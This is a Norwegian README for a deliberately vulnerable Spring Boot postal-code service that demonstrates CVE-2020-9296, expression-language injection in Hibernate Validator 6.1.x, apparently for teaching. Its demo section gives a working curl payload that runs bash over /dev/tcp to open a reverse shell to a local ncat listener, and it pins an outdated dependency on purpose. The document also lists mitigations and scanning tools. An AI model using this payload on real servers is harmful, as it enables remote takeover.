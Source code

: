 # postnr-sb
Enkelt innbrudd i Java Spring Boot server vha. Hibernate Validator 6.1.x

## Byging og kjøring

Applikasjonen bygges og kjøres med maven:

```shell
mvn spring-boot:run
```

## API

### GET /postnr

Søk i databasen over postnummer med en GET mot /postnr. Søket tar inntil fire parametre.

| Parameter | Betydning | Type | 
--- | --- | --- |
| pn | Postnummer | Numerisk |
| ps | Poststed | | Streng |
| kn | Kommunenr | Numerisk |
| k | Kommunenavn | Streng |

Ex:
```shell
curl -s localhost:8080/postnr?pn=5230
```

Resultatet er en liste av poststeder som matcher søkekriteriene:

```json
[
  {
    "kommune": "Bergen",
    "kommunenr": "4601",
    "postnr": "5230",
    "poststed": "Paradis"
  }
]
```

### POST /postnr

Søk i databasen over postnummer med en POST mot /postnr. Søket tar inn et JSON-objekt på samme format som resultatet. Ingen av feltene er påkrevd. De feltene som er med, påvirker søket.

Hvis `kommunenr` eller `postnr` er angitt, må disse være numeriske.

Ex:
```shell
jq --null-input "{postnr:5230}" > pnOk.json
curl -s -X POST -H "Content-Type:application/json" -d @pnOk.json http://localhost:8080/postnr | jq
```

Resultatet er en liste av poststeder identisk med GET-søket over:

```json
[
  {
    "kommune": "Bergen",
    "kommunenr": "4601",
    "postnr": "5230",
    "poststed": "Paradis"
  }
]
```

### Feilhåndtering

Ved ugyldig innputt, vil begge endepunktene returnere en liste av feilmeldingsobjekter.

For eksempel, vil
```shell
curl -s localhost:8080/postnr?pn=Bergen | jq
```

returnere beskjed om at `pn` krever numerisk innputt:
```json
[
  {
    "property": "search.q.postnr",
    "message": "Fikk 'Bergen' der numerisk verdi var forventet."
  }
]
```

## Demo ##

Tre terminaler:
1. `ncat -lkvp 31338`
2. `mvn spring-boot:run`
3. `curl -vv -G --data-urlencode 'pn=${"".getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(null).exec(["bash", "-c", "exec 5<>/dev/tcp/127.0.0.1/31338;cat <&5 | while read line; do $line 2>&5 >&5;done"].toArray("".split(","))).waitFor()}' http://localhost:8080/postnr`

I terminal 1 kan man nå skrive vanlige bash-kommandoer og eksekvere dem på maskinen som kjører i terminal 2.

Punkt 3 kan også utføres med POST:
```shell
curl -s -X POST -H "Content-Type:application/json" -d @pnError.json http://localhost:8080/postnr | jq
```

## Kommentarer

Feilen er med i Hibernate Validator opp tom. 6.1.x-versjonene.
6.2.x og 7.0.x legger begrensning på EL-tolkningen og defaulter til å ikke kunne kalle metoder. Se detaljer: https://in.relation.to/2021/01/06/hibernate-validator-700-62-final-released/,

CVE: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9296

Netflix: https://securitylab.github.com/advisories/GHSL-2020-027-netflix-conductor/

## Strategier

For å oppdage slike ting, bør en av de følgende vurderes. Den første er gratis, resten er abonnementsbasert. Snyk har noe gratis.

* OWASP Maven Plugin (https://owasp.org/www-project-dependency-check/  )​
* Snyk (https://snyk.io/ )​
* Nexus IQ (https://help.sonatype.com/iqserver )​
* Whitesource (https://www.whitesourcesoftware.com/ )​
* Black Duck (https://www.synopsys.com/software-integrity/security-testing/software-composition-analysis.html )​


### Tidlig oppdagelse

http://danamodio.com/appsec/research/spring-remote-code-with-expression-language-injection/

## Generert kode:

Koden er generert med https://start.spring.io/. Jeg har valgt Java 17 og lagt til 'Validation' og 'Spring Web'. I den genererte pom.xml, er så versjonen av spring-boot-starter-parent nedgradert til 2.4.13, siden 2.5.0 bruker Hibernate Validator 6.2.x. Merk at 2.4.13 er fra novemer 2021.

## Dokumentasjon

Java EE Expression Language: https://javaee.github.io/tutorial/jsf-el.html#GJDDD

Hibernate Validator: https://docs.jboss.org/hibernate/validator/6.1/reference/en-US/html_single/